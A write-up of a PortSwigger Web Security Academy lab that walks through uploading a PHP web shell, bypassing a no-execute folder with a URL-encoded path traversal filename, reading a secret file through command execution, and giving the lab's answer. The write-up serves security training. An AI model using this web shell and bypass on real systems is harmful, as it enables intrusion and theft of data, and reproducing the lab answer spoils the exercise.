# PortSwigger Web Security Academy - File Upload via Path Traversal | Write-up

> **Platform:** PortSwigger Web Security Academy &nbsp;•&nbsp; **Category:** File Upload Vulnerabilities &nbsp;•&nbsp; **Difficulty:** Practitioner
>
> **Target:** `web-security-academy.net` (Web shell upload via path traversal lab) &nbsp;•&nbsp; **Time taken:** 15 mins
>
> **Author:** Jithin Jelson

---

## Introduction

We have been told in this lab that a file upload vulnerability exists, but we have been made known that the folder where the PHP file will be uploaded cannot execute PHP code as a safeguard. Our goal is to bypass this and get the secret folder to complete the lab.

Credentials given: `wiener:peter`

---

## Assessment Overview



---

## What I Learned

- Path traversal in a filename can plant a web shell outside the directory that was meant to contain it.
- Blocking PHP execution on the upload folder alone is not a real control if an attacker can write one level up.
- Encoding the traversal slash as `%2f` defeats naive sanitisation that only strips a literal `../`.

---

## Logging In and Building the Web Shell

We can start by visiting the PortSwigger target web address and open up Burp Suite.



*Figure 1 - Burp Suite running next to the lab, logged in as wiener.*

We can input the details of our login to come to our file upload vulnerability area. We will also create a simple script to get us command line access via PHP code.

```
<?php system($_GET['cmd']); ?>
```



*Figure 2 - The PHP web shell that passes the `cmd` parameter to system().*

---

## Uploading the Web Shell

We will now attempt to upload this into our upload area provided to us.



*Figure 3 - The file avatars/shell.php has been uploaded.*

We can see that the file has successfully uploaded, however when we try to access the file we get the following.



*Figure 4 - The PHP source is returned as plain text, not executed.*

We get the following text but no execution. This is because this directory has been configured not to run PHP for security purposes. To bypass this we can try and use path traversal to execute it in the directory previous to this.



*Figure 5 - The uploaded shell sits under files/avatars/, the directory that blocks PHP.*

---

## Sending the Request to Repeater

We can try and run it in the files directory. To do this we can go to our HTTP history and send the following to Repeater.



*Figure 6 - The POST /my-account/avatar upload request in HTTP history, ready to send to Repeater.*

---

## Path Traversal in the Filename

We will now attempt to upload the script by changing the filename to `../shell.php`.

```
filename="../shell.php"
```



*Figure 7 - With filename ../shell.php the server still reports the file as uploaded.*

---

## Bypassing Input Sanitisation with URL Encoding

However we are greeted with a 404 error.



*Figure 8 - A 404 Not Found when accessing the traversed path.*

Maybe there is input sanitisation? We can try and URL-encode it and send it again. We'll repeat our request using Ctrl+U.

```
filename="..%2fshell.php"
```


*Figure 9 - URL-encoding the slash as %2f uploads the shell one directory up and returns 200 OK.*

---

## Achieving Remote Code Execution

Now this time we get a blank screen, this can be promising, so lets try and attempt RCE.



*Figure 10 - Command execution confirmed, the shell runs as uid=12002(carlos).*

And we are successful.

---

## Reading the Secret

Now lets view the secret.

```
GET /files/shell.php?cmd=cat+../../../../home/carlos/secret
```



*Figure 11 - Reading /home/carlos/secret through the web shell to complete the lab.*

> **Lab question:** Submit the secret from Carlos's home directory to solve the lab.

**Answer:** `W1F6KRJVOw5CMXPEJfKIknGeRwhgFYEM`
